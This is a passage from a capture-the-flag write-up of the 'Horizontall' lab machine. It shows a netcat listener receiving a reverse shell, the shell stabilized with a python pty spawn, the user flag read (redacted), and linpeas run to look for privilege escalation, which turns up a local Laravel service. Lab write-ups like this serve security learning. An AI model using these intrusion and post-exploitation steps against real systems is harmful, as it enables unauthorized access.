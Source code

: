 Next, all we have to do is to stabilize the shell and obtain the user flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000  
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.105] 57282
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ export TERM=xterm
export TERM=xterm
strapi@horizontall:~/myapi$ stty cols 132 rows 34
stty cols 132 rows 34
strapi@horizontall:~/myapi$ cd /home/developer
cd /home/developer
strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
<Redacted user flag>
strapi@horizontall:/home/developer$ 
```

## Obtaining root flag

Now, we will then navigate to the ```/myapi``` directory to execute Linpeas script to identify potential privilege escalation vectors.

```
strapi@horizontall:~/myapi$ ./linpeas.sh
./linpeas.sh
bash: ./linpeas.sh: Permission denied
strapi@horizontall:~/myapi$ chmod 777 linpeas.sh
chmod 777 linpeas.sh
strapi@horizontall:~/myapi$ ./linpeas.sh
```

From the output, we were able to identify suspicious service running on port 8000 on the localhost. Running a curl command on the http://localhost:8000 also reveals a ```Laravelv8(PHP v7.4.18)``` running on the web service.

![](../assets/horizontall/suspicious_localhost.png)
